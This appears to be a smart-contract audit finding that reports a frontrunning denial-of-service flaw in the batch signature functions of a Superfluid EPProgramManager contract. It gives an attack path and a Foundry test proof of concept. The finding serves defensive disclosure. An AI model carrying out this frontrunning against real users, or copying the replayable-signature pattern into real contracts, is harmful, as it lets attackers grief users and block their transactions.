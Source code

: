 Itchy Ivory Crow

Medium

# DoS frontrunning vulnerability

### Summary

An attacker can monitor the mempool and perform a frontrunning attack by using a valid signature before the legitimate user. This causes the signature to be validated but results in a denial of service (DoS) for all subsequent signatures submitted by the legitimate user.

### Root Cause

The signature validation logic is not resistant to frontrunning attacks, allowing malicious actors to invalidate subsequent calls by using previously submitted signatures.

[similar](https://eips.ethereum.org/EIPS/eip-2612#security-considerations)

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. A legitimate user sends a transaction containing multiple signatures, such as in [batchUpdateUserUnits](https://github.com/sherlock-audit/2024-11-superfluid-locking-contract/blob/1fa5f86024be5f269e1a0898b1f939f1d4cce149/fluid/packages/contracts/src/EPProgramManager.sol#L152-L170) or [batchUpdateUnits](https://github.com/sherlock-audit/2024-11-superfluid-locking-contract/blob/1fa5f86024be5f269e1a0898b1f939f1d4cce149/fluid/packages/contracts/src/EPProgramManager.sol#L109-L116) (EPProgramManager contract).
2. An attacker copies one valid signature from the array and uses it in a frontrun transaction.
3. This invalidates the legitimate user’s transaction since the signature has already been consumed.

### Impact

No profit motive for an attacker, but damage to the users or the protocol (griefing).

### PoC

```Solidity
function testFrontrunningDoS(
        uint8 _batchAmount,
        uint96 _signerPkey,
        address _user,
        uint256 _units
    ) external {
        vm.assume(_signerPkey != 0);
        vm.assume(_user != address(0));
        vm.assume(
            _user != address(_stakingRewardController.taxDistributionPool())
        );
        _units = bound(_units, 1, 1_000_000);
        _batchAmount = uint8(bound(_batchAmount, 2, 8));

        uint256[] memory programIds = new uint256[](_batchAmount);
        uint256[] memory newUnits = new uint256[](_batchAmount);
        uint256[] memory nonces = new uint256[](_batchAmount);
        bytes[] memory stackSignatures = new bytes[](_batchAmount);
        ISuperfluidPool[] memory pools = new ISuperfluidPool[](_batchAmount);

        for (uint8 i = 0; i < _batchAmount; ++i) {
            programIds[i] = i + 1;
            pools[i] = _helperCreateProgram(
                programIds[i],
                ADMIN,
                vm.addr(_signerPkey)
            );

            newUnits[i] = _units;
            nonces[i] = _programManagerBase.getNextValidNonce(
                programIds[i],
                _user
            );
            stackSignatures[i] = _helperGenerateSignature(
                _signerPkey,
                _user,
                newUnits[i],
                programIds[i],
                nonces[i]
            );
        }

        vm.prank(address(0x1));
        _programManagerBase.updateUserUnits(
            _user,
            programIds[0],
            newUnits[0],
            nonces[0],
            stackSignatures[0]
        );

        vm.expectRevert();
        vm.prank(_user);
        _programManagerBase.batchUpdateUnits(
            programIds,
            newUnits,
            nonces,
            stackSignatures
        );
    }
```

Copy paste this function on `EPProgramManagerTest.t.sol`

### Mitigation

_No response_